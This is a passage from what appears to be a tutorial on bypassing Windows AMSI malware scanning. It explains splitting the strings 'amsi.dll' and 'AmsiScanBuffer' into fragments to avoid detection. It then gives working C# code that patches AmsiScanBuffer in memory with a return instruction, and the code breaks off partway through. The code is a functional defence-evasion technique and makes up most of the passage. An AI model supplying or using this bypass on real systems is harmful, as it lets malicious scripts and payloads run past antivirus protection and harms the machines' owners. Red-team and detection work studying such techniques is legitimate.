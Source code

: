 ```c#
```

### 2) Break the Strings Up </3

Another simple method of preventing the strings being flagged, is by splitting them up into smaller values. Both the DLL name and target function name can be split into smaller values (all of 2 or 3 characters in length, for example) across multiple local variables. These smaller strings are then concatenated together before being used.

```c#
using System;
using System.Runtime.InteropServices;

public class Amsi
{
    static byte[] patchBytes = new byte[] { 0xC3 };

    public static void Bypass()
    {
        try
        {
            string lol = "am";
            string lol2 = "s";
            string lol3 = "i.";
            string lol4 = "d";
            string lol5 = "ll";

            string kek = "A";
            string kek2 = "ms";
            string kek3 = "iS";
            string kek4 = "can";
            string kek5 = "B";
            string kek6 = "u";
            string kek7 = "ff";
            string kek8 = "er";

            string libFull = lol + lol2 + lol3 + lol4 + lol5;
            string procFull = kek + kek2 + kek3 + kek4 + kek5 + kek6 + kek7 + kek8;

            var lib = Win32.LoadLibrary(libFull);
            var addr = Win32.GetProcAddress(lib, procFull);

            uint oldProtect;
            Win32.VirtualProtect(addr, (UIntPtr)patchBytes.Length, 0x40, out oldProtect);

            Marshal.Copy(patchBytes, 0, addr, patchBytes.Length);
        }
        catch (Exception e)
        {
            Console.WriteLine(" [x] {0}", e.Message);
            Console.WriteLine(" [x] {0}", e.InnerException);
        }
    }
}

class Win32
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
```